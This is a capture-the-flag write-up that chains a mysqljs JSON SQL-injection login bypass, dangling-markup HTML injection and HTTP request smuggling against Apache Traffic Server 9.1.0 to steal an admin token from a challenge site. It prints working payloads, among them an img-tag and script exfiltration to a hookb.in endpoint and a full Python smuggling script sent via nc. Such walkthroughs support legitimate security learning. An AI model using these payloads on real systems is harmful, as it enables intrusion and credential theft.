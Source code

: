 ## PALINDROME's Secret

We are given a website and its source code.

This web application requires 3 exploits to be able to retrieve the flag. 
1. SQL injection (not your normal SQL payload) to *log in*
1. HTTP Request Smuggling (damn cool, never learnt before) to make a request to a protected URL.
1. Cross-Site Scripting (sort of, but it is HTML Injection) to steal the administrator token.

![Login Page](./Images/Challenge5_1.png)

```js
const postLoginHandler = async (req, res) => {
    const { email, password } = req.body
    if (!email || !password)
        return res.status(400).send({ message: 'Missing email or password' })

    const rows = await query(`SELECT * FROM users WHERE email = ? AND password = ?`, [email, password])
    if (rows.length === 0)
        return res.status(401).send({ message: 'Invalid email or password' })

    req.session.userId = rows[0].id
    return res.status(200).send({ message: "Success" })
}
```

This is the login handler. We can use the exploit [here](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4) to perform sql injection and obtain a login token.

```json
{
    "email":{
        "email": 1
    },
    "password":{
        "password": 1
    }
}
```
![Login Success](./Images/Challenge5_2.png)

We use burpsuite to intercept the request, change the json object that is POST-ed and then we can login into the portal! Later on, I needed to keep creating new sessions as I was trying to craft the payload. A faster way to *log in* will be to send a POST request in repeater, without the cookie, when the web server replies with the success message, copy out the generate session token and edit the cookie in firefox to have a fresh session.

![Login Success GUI](./Images/Challenge5_3.png)

The only place the admin token is present is in the middleware. It seems like we need the connection to originate from localhost. Probably means we need to find some place to conduct an SSRF attack.

```js
const authenticationMiddleware = async (req, res, next) => {
    if (req.session.userId) {
        if (req.ip === '127.0.0.1')
            req.session.token = process.env.ADMIN_TOKEN 

        next()
    }
    else 
        return res.redirect('/login')
}
```

The place with the highest chance of SSRF looks like the `report-issue` feature, where we can input an URL to the server to scan (the server will use puppeteer to visit the URL). However the `do-report` feature is blocked by the proxy. The `do-report` path is mapped to `forbidden`, instead of `do-report`.

```
map             /login          http://app:8000/login
map             /index          http://app:8000/index
map             /token          http://app:8000/token
map             /verify         http://app:8000/verify
map             /report-issue   http://app:8000/report-issue
map             /static         http://app:8000/static
map             /do-report      http://app:8000/forbidden
regex_redirect  http://(.*)/    http://$1/index
```

It seems like the proxy used is `Trafficserver 9.1.0`. This seems to be an old version of Apache Traffic Server.

```
RUN curl -L https://archive.apache.org/dist/trafficserver/trafficserver-9.1.0.tar.bz2 > ats.tar.bz2 && \
    tar xf ats.tar.bz2 && \
    cd trafficserver-9.1.0 && \
    ./configure --prefix=/opt/ts && \
    make && \
    make install
```

I was quite sure that it was HTTP request smuggling since the `remap.config` looks properly configured and the only other way to `/do-report` is through smuggling. I made a detour to think about the final step first. 

Even if we can make a request to `/do-report`, what URL should we provide it? My first idea was naive. I tried to host a web server which returns javascript to make puppeteer visit `https://localhost:8000/token` and then return the html response. Well it failed, because of CORS. A browser doesn't let you make requests to servers that don't allow CORS.

Inside `main.js` we can see this:
```js
res.setHeader(
        'Cross-Origin-Opener-Policy',
        'same-origin'
    )
```

This is the example payload in the URL.
```html
<script>
  let req = new XMLHttpRequest();
  req.open("GET", "http://localost:8000/index");
  req.onreadystatechange = function () {
    if (req.readyState === 4) {
      const req2 = new XMLHttpRequest();
      req2.open("POST", "https://hookb.in/8PVJYNKQqEUpVYopj8VX", true);
      req2.setRequestHeader("Content-Type", "application/json");
      req2.send(JSON.stringify({"response": req.status }));
    }
  };
  req.setRequestHeader("Content-Type", "application/json");
  req.responseType = "json";
  req.send(JSON.stringify({ "username" : "yolo" }));
  req.send();
</script>
```

Well then the only other way is to really make puppeteer, retrieve the token from somewhere inside `localhost:8000` and then return us the token. My first thought was something like reflected XSS, but there are no fields that allow us to do so. Persistent XSS was possible though. Inside `/token`, you can input **any** username you want, and then the token generated can be used as XSS inside `/verify?token=...`. It is now clear where to steal the admin token, the admin token will be revealed inside `http://localhost:8000/verify?token=...` right behind the `!{username}` tags.

```pug
            | This token belongs to !{username}.
            | If !{username} asks for your token, you can give them this token: #{token}.
```

My first idea was to insert `<script>` tags.

![XSS](./Images/Challenge5_4.png)

Well, nothing worked. Let's check the `Content-Security-Policy`. Inside `main.js`:

```js
    res.setHeader(
        'Content-Security-Policy',
        "default-src 'self'; img-src data: *; object-src 'none'; base-uri 'none'; frame-ancestors 'none'"
    )
```

It seems like we won't be able to load scripts that are not from the server itself. The only thing we are able to inject will be `img src` tags. Let's try to craft a `img` tag payload. The only one that was able to succeed was `<img src="c2server/c2url?a=` As the unclosed `"` and `>` will mean that we can steal some text from behind where `username` was rendered. 

![Img tag](./Images/Challenge5_5.png)

Using `<img src="...` as payload. We can see that the second `img src` gets broken off.

![img src](./Images/Challenge5_6.png)

Our *pathetic* loot from the server:

![returned payload](./Images/Challenge5_6_1.png)

After experimenting many more payloads, the final payload looks like this. It looks like the HTML injection worked and we can steal the user's token. Now we just need to smuggle the request to this page to the backend server.

``"><img src="https://hookb.in/6J1enM3l90ToO0ro3Px9?steal=`
![img src success](./Images/Challenge5_7.png)

We got our own token back, this means that if the administrator visits this page, we will get the administrator token.

![returned payload success](./Images/Challenge5_7_1.png)

Now back to the HTTP request smuggling. After some extensive googling, an [HTTP request smuggling exploit](https://hackerone.com/reports/1238099) for ATS 9.0.0 looks promising. I downloaded the `poc.zip` and then used `payload2.py` to craft my payload. I first used hookbin as the URL so that I can check if the HTTP request smuggling succeeded, this particular python payload was able to return a request to my hookbin endpoint.

```python
import sys

def h(n):
    return hex(n)[2:].encode()

payload = b"{\"url\": \"https://hookb.in/Lg3WWl6pPMi1lrp1aGn1\"}"
cookie = b"Cookie: connect.sid=s%3AU9-fwBPGCKnA9HEFOKwZnRwDoaMu9pzq.zDzhgdHfIrIYYtibgwtTPLAymXU9niSE0BvhDgpl6Yw"

smuggled = (
    b"POST /do-report HTTP/1.1\r\n" +
    b"Host: chal010yo0os7fxmu2rhdrybsdiwsdqxgjdfuh.ctf.sg:23627\r\n" +
    b"Content-Type: application/json" + b"\r\n" +
    b"Content-Length: " + str(len(payload)).encode() + b"\r\n" +
    cookie + b"\r\n" +
    b"\r\n" +
    payload + b"\r\n" +
    b"0\r\n\r\n"
)

smuggled_len = h(len(smuggled) - 7 + 5)

first_chunk_len = h(len(smuggled_len))

sys.stdout.buffer.write(
    b"GET /index HTTP/1.1\r\n" +
    b"Host: chal010yo0os7fxmu2rhdrybsdiwsdqxgjdfuh.ctf.sg:23627\r\n" +
    b"Transfer-Encoding: chunked\r\n" +
    cookie + b"\r\n" +
    b"\r\n" +
    first_chunk_len + b" \n" + b"x"*len(smuggled_len) + b"\r\n" +
    smuggled_len + b"\r\n" +
    b"0\r\n" +
    b"\r\n" +
    smuggled
)
```

`python payload2.py | nc 128.199.237.165 23627`

Now, all that is left is to put in the "XSS" payload into a token and then make puppeteer visit the URL. I replaced the URL in the `payload2.py` to `payload = b"{\"url\": \"http://localhost:8000/verify?token=TISC%7B2%3A2%3A3%3A9%3A7%3Ax%3An%3Ar%3A4%3Au%7D\"}"`. And we get the flag!

![Flag](./Images/Challenge5_8.png)

So let's run through the steps again.
1. First I used SQLi using json payloads to login into the console. 
1. Then I crafted a [HTTP Dangling Markup Injection](https://portswigger.net/web-security/cross-site-scripting/dangling-markup) payload which allows us to steal the html text. The username is entered as the payload and the resulting token produced will be the URL that we want puppeteer to visit. 
1. Then I used HTTP request smuggling to make a request to `/do-report` so that it will visit the verify token page. Once puppeteer visits the URL, the dangling markup will be able to capture the token and return it to us.

